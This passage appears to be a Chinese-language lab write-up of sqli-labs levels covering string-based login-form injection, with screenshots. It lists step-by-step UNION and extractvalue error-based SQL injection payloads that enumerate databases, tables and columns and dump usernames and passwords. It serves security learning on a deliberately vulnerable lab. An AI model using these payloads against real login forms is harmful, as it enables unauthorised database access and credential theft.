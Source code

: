 登录框字符串型回显注入

##### 输入点：

输入`admin"`返回报错，从")得知，对username进行了("username")处理

![image-20201109193901736](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114659.png)

##### 输出点

输入`admin")# or 1=1`回显正常，得知使用`“)`可以闭合前面的语句，从而自己构造语句![image-20201109194336003](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114700.png)

##### 注入方式

采用`")`闭合，再使用union联合查询

##### 注入步骤

- 判断列数`payload:admin") order by 2#` 3的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:1admin") union select 1,2#`
- 获取数据库`payload:1admin") union select 1,database()#`
- 爆数据表`payload:1admin") union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#`
- 爆users表的数据字段`payload：1admin") union select 1,group_concat(column_name) from information_schema.columns where table_name='users'#`
- 在爆出的字段中里面看到了password和username，于是爆数据`1admin") union select 1,group_concat(username,'~',password) from users#`username和password中间使用~来分隔

## less-13

##### 注入类型

登录框字符串型无回显注入

##### 输入点：

输入`admin'`  123回显该报错，得知做了`')`处理

![image-20201109194659983](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114701.png)

##### 输出点：

输入`admin')#`  123 无回显，于是得知，可以先使用`')`闭合语句，再使用报错注入来进行SQL注入![image-20201109194844901](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114702.png)

##### 注入方式

使用`')`闭合语句，再使用extractvalue报错注入来进行SQL注入

##### 注入步骤

- 报错注入不需要判断字段数，所以直接爆数据库名`payload:1admin') or extractvalue(1,concat(0x7e,(select database()),0x7e))#`
- 爆数据表`payload:1admin') or extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'))#`
- 爆字段`payload:1admin') or extractvalue(1,concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'))#` 右：`id=1admin') or extractvalue(1,right(concat('~',(select group_concat(column_name)from information_schema.columns where table_name='users'),'~'),32))#`
- 爆数据`payload:1admin') and extractvalue(1, concat(0x7e,(select (group_concat(username,password)) from users),0x7e))#` `payload:1admin') and extractvalue(1, right(concat(0x7e,(select (group_concat(username,password)) from users),0x7e),32))#`
